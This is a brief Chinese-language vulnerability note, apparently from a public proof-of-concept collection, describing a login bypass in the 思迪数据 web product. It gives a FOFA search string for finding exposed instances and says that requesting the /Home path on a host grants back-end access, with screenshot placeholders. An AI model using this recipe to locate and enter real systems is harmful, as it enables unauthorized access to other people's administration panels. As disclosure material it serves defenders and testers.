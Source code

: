 # 思迪数据 Home 登录绕过漏洞

## 漏洞描述

思迪数据存在登录绕过漏洞，通过访问特殊路径即可获取后台权限

## 漏洞影响

```
思迪数据
```

## FOFA

```
"思迪数据"
```

## 漏洞复现

登录页面



![](./images/202202101855808.png)



访问



```plain
http://xxx.xxx.xxx.xxx/Home
```



![](./images/202202101855833.png)